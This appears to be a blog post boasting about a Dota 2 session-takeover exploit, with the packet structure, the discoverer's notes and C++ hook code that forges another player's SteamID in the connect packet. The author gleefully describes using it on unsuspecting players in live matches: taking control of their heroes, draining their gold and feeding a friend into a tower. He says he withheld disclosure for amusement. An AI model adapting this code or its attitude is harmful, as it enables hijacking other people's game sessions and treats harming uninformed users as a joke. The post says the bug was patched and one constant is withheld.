

The most powerful exploit yet came just in time for April fool's.

## Origins
March 31st.
 
I receive a message from my right-hand man, **moofmonkey**...


I'll save the full introduction for another post but let me just say that he is my Russian friend and fellow
__lord of U.N.D.E.R__. This madman is working on the runelite of Dota and just found the most disgusting exploit i've ever seen.

## Details
This exploit lets you connect to the gameserver as **ANY** currently open session.

There are several additional effects and special conditions that we found during the operation that I will discuss further below.

## Technical Details
When you connect to a source engine server, your client will send a C2S_CONNECT packet to the server. 
(C2S = Client-to-Server; S2C = Server-to-Client)
This packet is currently structured like this:
```
message C2S_CONNECT_Message {
	optional uint32 host_version = 1;
	optional uint32 auth_protocol = 2;
	optional uint32 challenge_number = 3;
	optional fixed64 reservation_cookie = 4;
	optional bool low_violence = 5;
	optional bytes encrypted_password = 6;
	repeated .CCLCMsg_SplitPlayerConnect splitplayers = 7;
	optional bytes auth_steam = 8;
	optional string challenge_context = 9;
	optional sint32 use_snp = 10;
}
```

Most of these do what you think they do, but the one to focus on here is `auth_steam`. 
The first 8 bytes of this is your SteamID64.

How did **moofmonkey** find an exploit in this? Well I asked him for a more detailed story in how he found the exploit...

```
1. I experienced that if you'd reject S2C_REJECT - server will pass you, but will send REJECT_NOLOBBY unless *some value* (unknown at that point) weren't set right
2. I experienced that if I'd send 2 splitscreenplayers in that message instead of 1 - it'd crash server because of shitty fix after *[censored exploit that only lasted 1 day]*
3. I thought "it'd be funny if I'll find control exploit", looked up how auth_steam worked (I already knew its' structure because I tried to make bots) - first 8 bytes are steamid64.
Tried to change it - it gives reject_steam on 1st attempt if steamid exists on server, or nolobby if it doesn't. Then I tried old exploit with rejecting S2C_REJECT - and it worked.
```

A very nice explanation. Now we can get to the code.

## Code
I won't put a full pasta here, because this is definitely going to work on the other source 2 games and April 1st is over.
But it'll still be fun.

First let's get some way to get incoming **Connectionless** packets. I actually already had this in my [Source 2 SDK](https://github.com/LWSS/McDota/blob/master/src/SDK/CNetworkGameClient.h#L129), although parameters had changed since :(



// global bool
inline deny_S2C_CONNREJECT = false;

if( deny_S2C_CONNREJECT && *GetPointer<char>(*GetPointer<void*>(a2, 32), 4) == '9' ){
    deny_S2C_CONNREJECT = false;
    return;
}


This will end the receive function early if we are rejecting.

And the main mystery-meat hook is what I call "SendPacket2"


if( mc_victim_steamid->GetInt() != 0 // custom convar :P
&& dataLen > 5
&& *GetPointer<uint32_t>(data, 0) == 0xFFFFFFFF // CONNECTIONLESS_PACKET
&& *GetPointer<char>(data, 4) == 'k' // C2S_CONNECT
) {
    MC_PRINTF("memeing\n");
    auto proto_data = GetPointer<uint8_t>(data, 5);
    size_t proto_size = dataLen - 5;
    ReadVarInt(proto_data, proto_size);
    C2S_CONNECT_Message msg;
    msg.ParseFromArray(proto_data, proto_size);
    auto str = msg.mutable_auth_steam();
    if (str != nullptr && str->size() >= 8) {
        *(uint64_t*)str->data() = (uint64_t)mc_victim_steamid->GetInt() + /*MAGIC*/;
        msg.SerializePartialToArray(proto_data, proto_size);
        deny_S2C_CONNREJECT = true;
        networkSystemVMT->GetOriginalMethod<SendPkt2Fn>( 24 )( thisptr, slot, data, dataLen );
        return;
    }
}


There we go, now we are ready for exploitation.

## Exploitation

First we set our victim's SteamID32 and then we connect to their game.
Once connected, we are practically them with some caveats.

Note that it will not kick them out and you will fight over the controls. This leads to some funny moments.
<video width="900" height="600" controls>
  <source src="../videos/trolltakeover.webm" type="video/webm">
  Your browser does not support the video tag.
</video>

#### Side-effects
* MMR not counted for the match
* victim loses all their gold and can't gain more until you stop mind controlling them.
* victim can turn white, but not always. If this happens, they are not shown in the postgame.
* more...

#### Caveats
* You can not buy items unless the victim is disconnected.


#### Behaviors

When someone is being remote-controlled their first reaction is normally to laugh and then reconnect to try and fix it.
After they disconnect, usually your session becomes invalid after about 10 seconds.
If you can reconnect before they do, you will takeover their slot until they come back, afterwards you will be forced to the "secondary" slot for their session again.

The benefit of the primary slot is that you are now able to buy items.

After our infinite heroes exploit, Valve limited the number of players per-team to 5. Because of this limit, we are not on Radiant/Dire and have no ward limit.
We can buy as many observer wards as we want until the victim comes back.

<video width="900" height="600" controls>
  <source src="../videos/wardlord.mp4" type="video/mp4">
  Your browser does not support the video tag.
</video>

## Impact Score:
* Security [3/10] - Leads to client session takeover, but still unprivileged.
* Disruptive [10/10] - MAX SCORE - bonus +5pts!
* Ease [3/10]

*Overall*: 21/30 = 7/10, very disruptive and will be hard to beat in the future. This is one of the legendary exploits.

## The Wrath of Valve

Long have my operations gone unnoticed, but after going hard with this one, I finally joined 2038 gang.


This was actually long before they patched it, they forced a namechange so I would easier to look for in the logs.


They even disabled downloading older manifests of Dota, this could be unrelated though.


Oh yeah and I got banned from /r/dota2, but who cares.

After banning me, they went through my friend's list and banned anyone I had played with recently,
banning tons of innocent gamers. Now it's true that a couple of them knew what was going on, however most of them did not.
I had one friend who I thought I would surprise, he hadn't played Dota for about 3 months and decided to play some crystal maiden.
I fed him into the tower a few times while he freaked out. The next day, he was promptly accepted into 2038 gang.

Sins of the Father, I guess. 

#### Update 4/08
Someone at Valve is still fuming, after seeing my friends' ban appeals they decided to ban everyone even more!

> detected, lol

They even did an item wipe, wow they are real mad!


Double kill!


I'm gonna open a ban appeal now lol, stay tuned.
## Resolution

Valve patched the bug April 2nd, marking the end of the Dota April Fool's day exploit.

#### Why don't you tell Valve about these exploits?
I have heard this from multiple people, there are a few reasons for this:

1. This exploit is not security-related and can't be posted to hackerone. Moofmonkey and I both report exploits to hackerone if the possible reward is greater than the enjoyment we would get out of it.
(*btw Valve, server crashers are teetering on the edge of that, maybe if your hackerone was more active...*)
2. I personally have emailed Valve about exploits. They will just fix them with no response. It takes 5 seconds to write "Thanks" or "Good Catch" but they don't care.
3. It would be a missed opportunity for a good meme.


🤡 Happy April Fool's to all the sweaty gamers that thought they lost MMR 🤡